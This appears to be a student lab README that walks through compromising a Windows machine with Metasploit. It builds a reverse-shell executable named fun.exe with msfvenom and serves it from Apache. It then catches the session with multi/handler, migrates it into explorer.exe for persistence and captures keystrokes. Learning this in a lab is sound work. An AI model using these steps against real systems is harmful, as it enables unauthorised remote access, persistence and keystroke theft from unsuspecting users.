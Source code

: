 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![o1](https://github.com/pavankishore-AIDS/Compromising-windows-using-Metasploit/assets/94154941/129362e1-a4c9-409b-851a-736ec5d370bc)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![o2](https://github.com/pavankishore-AIDS/Compromising-windows-using-Metasploit/assets/94154941/94d4c038-e93e-44b2-aec5-8f1490252440)





copy the fun.exe into the apache /var/www/html folder
![o3](https://github.com/pavankishore-AIDS/Compromising-windows-using-Metasploit/assets/94154941/be4073ae-535a-4d73-a9c5-88846050f3b5)



Start apache server
sudo systemctl apache2 start

![o4](https://github.com/pavankishore-AIDS/Compromising-windows-using-Metasploit/assets/94154941/6c6ab87c-23cd-4487-a957-7d1750ccc852)




Check the status of apache2
![o5](https://github.com/pavankishore-AIDS/Compromising-windows-using-Metasploit/assets/94154941/99131ed3-efa4-4b8d-bc13-efaa75712f4d)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![o6(1)](https://github.com/pavankishore-AIDS/Compromising-windows-using-Metasploit/assets/94154941/ca0bfd1c-9674-460e-b17a-d7c1ff0ced2c)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![o7](https://github.com/pavankishore-AIDS/Compromising-windows-using-Metasploit/assets/94154941/089895af-b410-4aa8-819b-7a9cf77244f3)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![o8](https://github.com/pavankishore-AIDS/Compromising-windows-using-Metasploit/assets/94154941/c0c41daf-b7ca-4a01-9ced-d3772d4fb461)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![o9](https://github.com/pavankishore-AIDS/Compromising-windows-using-Metasploit/assets/94154941/032c93ad-afd1-49ee-9957-bfa34f23fc1d)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![o10](https://github.com/pavankishore-AIDS/Compromising-windows-using-Metasploit/assets/94154941/92bfc75b-c8ee-492f-8913-09473082eb9e)



keyscan_dump	Shows the keystrokes captured so far
![o11](https://github.com/pavankishore-AIDS/Compromising-windows-using-Metasploit/assets/94154941/229c113b-43c2-4e27-b50d-562bc4d031b2)



## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

